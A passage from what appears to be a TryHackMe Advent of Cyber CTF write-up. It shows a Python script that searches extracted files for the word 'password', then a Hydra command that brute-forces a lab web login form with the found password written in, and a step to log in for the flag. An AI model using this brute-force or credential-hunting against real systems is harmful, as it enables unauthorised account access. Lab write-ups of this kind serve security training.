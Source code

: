 ```Python

print("Number of files in version 1.1: " + str(m_count))
```

### Find the file with specific content

```Python
import os

# read all file in decom 2 and find the file with 'password'
ListFile = os.listdir('decom2')
for l in ListFile:
	f = open('decom2/' + l,'r')
	data = f.read()
	f.close()

	if "password" in data:
		print(l)
```

<span id="17"></span>

## Day 17 (Task 22): Hydra

### Brute-force the HTTP-post-form

The hint is a joke, do not trust it. The password is located around 900k+ in rockyou.txt. I will make another exception for this task by revealing the password.

```
hydra -l molly -p joyness1994 <machine IP> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

![hydra](/assets/images/THM/2020-08-15-advent-of-cyber/day17/1.png)

![hydra password](/assets/images/THM/2020-08-15-advent-of-cyber/day17/2.png)

Login molly's credentials on the webpage and capture the flag.

![http](/assets/images/THM/2020-08-15-advent-of-cyber/day17/3.png)
